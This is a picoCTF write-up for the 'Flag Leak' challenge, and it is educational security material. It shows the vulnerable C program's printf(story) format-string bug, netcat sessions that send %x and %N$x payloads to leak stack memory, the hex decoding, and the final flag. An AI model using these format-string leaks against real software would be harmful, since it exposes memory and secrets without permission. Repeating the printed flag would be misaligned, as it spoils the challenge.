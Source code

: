 # FLAG LEAK
In this challenge we are given 2 files: vuln and vuln.c  
Since vuln was an executable file, i tried to make sence from the c program given:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
The printf(story) statement is vulnerable to format string attacks.
Normally, printf expects a format string like %s. However, here the program directly uses the user input (story) as the format string. This allows the user to inject format specifiers like %x, %s, or %n.
Using this i can cause the flag to leak from the flag buffer.
So i started using format specifiers like %x and it gave me hex values as output:
```
aditya_cryptonite@DESKTOP-SG1LV2M:~$ nc saturn.picoctf.net 58267
Tell me a story and then I'll tell you one >> %x
Here's a story -
ff9d4bc0
```
This was just a memory address or a raw stack value, now i shall try to get more from the flag buffer:
```
aditya_cryptonite@DESKTOP-SG1LV2M:~$ nc saturn.picoctf.net 58267
Tell me a story and then I'll tell you one >> %x,%x,%x
Here's a story -
ff977ce0,ff977d00,8049346
```
Ok so this seems to be working, if i keep spamming %x like this i would likely encounter the hex values of the flag along the way:
```
aditya_cryptonite@DESKTOP-SG1LV2M:~$ nc saturn.picoctf.net 56413
Tell me a story and then I'll tell you one >> %x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x
Here's a story -
fffd4520,fffd4540,8049346,252c7825,78252c78,2c78252c,252c7825,78252c78,2c78252c,252c7825,78252c78,2c78252c,252c7825,78252c78,2c78252c,252c7825,78252c78,2c78252c,252c7825,78252c78,2c78252c,252c7825,78252c78,2c78252c,252c7825,78252c78,2c78252c,252c7825,78252c78,2c78252c,252c7825,78252c78,2c78252c,252c7825,252c78,6f636970,7b465443,6b34334c,5f676e31,67346c46,6666305f,3474535f,
```
Ok so i got a bunch of hex values by copy pasting %x again and again, intrestingly the hex values seems to stop at around the 42nd %x but i seemed to have entered more than that, anyways lets convert this hex to text:
![image](https://github.com/user-attachments/assets/959b8530-a3d2-41e2-b546-005501a4ef63)

So we can see that i do seem to have gotten the flag at the end which are these characters : ocip{FTCk43L_gn1g4lFff0_4tS_
The problem is the flag seems incomplete.
I was stuck so ig bruteforcing is the only way to get the remaining flag. To get the remaining part of the flag after the 42nd %x i started bruteforcing from the 43rd position.

Bruteforcing:
```
aditya_cryptonite@DESKTOP-SG1LV2M:~$ nc saturn.picoctf.net 60347
Tell me a story and then I'll tell you one >> %43$x
Here's a story -
315f6b63

aditya_cryptonite@DESKTOP-SG1LV2M:~$ nc saturn.picoctf.net 60347
Tell me a story and then I'll tell you one >> %44$x
Here's a story -
62326131

aditya_cryptonite@DESKTOP-SG1LV2M:~$ nc saturn.picoctf.net 60347
Tell me a story and then I'll tell you one >> %45$x
Here's a story -
7d613235

aditya_cryptonite@DESKTOP-SG1LV2M:~$ nc saturn.picoctf.net 60347
Tell me a story and then I'll tell you one >> %46$x
Here's a story -
fbad2000
```
Now we got the hex values for the remaining flag. Now to add these to the previous flag parts and converting to text:

![image](https://github.com/user-attachments/assets/6aa3c43a-bd71-460b-8442-e29b5bd19c70)

So now i seem to have the entire flag : ocip{FTCk43L_gn1g4lFff0_4tS_1_kcb2a1}a25

I just need to arrange it to make sence. If we see really carefully we can see that some sort of reversing is occuring here(at every 4 places it seems), ocip becomes pico, {FTC is CTF{, lets continue the pattern and see where it gets us:

picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a} 

yay i got it( the reversing thing hurt my brain tho)

### Flag:
>picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a} 
